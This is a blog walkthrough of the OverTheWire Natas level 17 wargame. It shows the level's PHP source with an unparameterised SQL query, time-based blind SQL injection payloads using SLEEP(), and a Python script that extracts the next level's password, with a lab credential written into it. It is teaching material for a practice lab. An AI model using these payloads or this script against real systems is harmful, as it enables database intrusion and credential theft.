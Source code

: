 ```yaml
---
title: "Overthewire Natas 17 Walkthrough"
layout: post
date: 2018-04-10 21:44
image: /assets/images/markdown.jpg
headerImage: false
tag:
- ctf
- overthewire
- natas
- wargames
star: true
category: blog
author: Hisham Alshaikh
description: This is just a walkthrough for overthewire's natas level 17
---
```


## Challenge

![Markdown Image](/assets/images/natas_17_solution/challenge_page.png)

{% highlight php %}
<? 
/* 
CREATE TABLE `users` ( 
  `username` varchar(64) DEFAULT NULL, 
  `password` varchar(64) DEFAULT NULL 
); 
*/ 

if(array_key_exists("username", $_REQUEST)) { 
    $link = mysql_connect('localhost', 'natas17', '<censored>'); 
    mysql_select_db('natas17', $link); 
     
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\""; 
    if(array_key_exists("debug", $_GET)) { 
        echo "Executing query: $query<br>"; 
    } 

    $res = mysql_query($query, $link); 
    if($res) { 
    if(mysql_num_rows($res) > 0) { 
        //echo "This user exists.<br>"; 
    } else { 
        //echo "This user doesn't exist.<br>"; 
    } 
    } else { 
        //echo "Error in query.<br>"; 
    } 

    mysql_close($link); 
} else { 
?> 
{% endhighlight %}

The goal of this challenge is to exploit a blind SQL injection vulnerability in order the to read the 'password' column for the username natas18, so we obtain the password for the next level. 


## Solution


Reading the source code we can find out that we have control over the username field in the SQL query. We can do a proof of concept that this blind sql injection works by using SLEEP() function; we will know it works if it took a longer time to respone.

{% highlight raw %}
natas18" and sleep(5)#
{% endhighlight %}


Now we can do the same sleep() technique in order to know the characters in the password. So we will send a query for querying some character in the password field, and if it exists a delay will happen, if not nothing will happen. 

{% highlight raw %}
natas18" AND IF(password LIKE BINARY "%0%", SLEEP(100), null) #
{% endhighlight %}


Now we can automate all of this proccess of getting natas18 password using the following python script.

{% highlight python %}
#!/usr/bin/python
#h15h4m


import requests
from requests.auth import HTTPBasicAuth


http_username = "natas17"
http_password = "8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw"
target =  "http://natas17.natas.labs.overthewire.org/"
http_login=HTTPBasicAuth(http_username, http_password)
chars_to_check = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
password_chars_found = ''
password = ''
r = requests.get(target, auth=http_login)

if  r.status_code != requests.codes.ok:
    print "[-] Check Authentication"
    exit()


print "[!] We are in"



#natas18" AND IF(password LIKE BINARY "%0%", SLEEP(100), null) #

for i in chars_to_check:
    payload = 'natas18" AND IF(password LIKE BINARY "%'+ i +'%", SLEEP(5), null) %23'
    try:
        r = requests.get(target + "index.php?debug=1&username=" + payload, auth=http_login,timeout=1)
    except:
        print "[+] Timeout: Char Found " + i
        password_chars_found += i

print '[!] Found Chars ' + password_chars_found

#md5 32 chars
for i in range(32):
    for ii in password_chars_found:
        payload = 'natas18" AND IF(password LIKE BINARY "'+ password + ii +'%", SLEEP(5), null) %23'
        try:
            r = requests.get(target + "index.php?debug=1&username=" + payload, auth=http_login,timeout=1)
        except:
            print "[+] Timeout: Char Found " + ii
            password += ii
            break


print '[!] PASSWORD = ' + password

#print r.content
{% endhighlight %}



![Markdown Image](/assets/images/natas_17_solution/final_result.png)


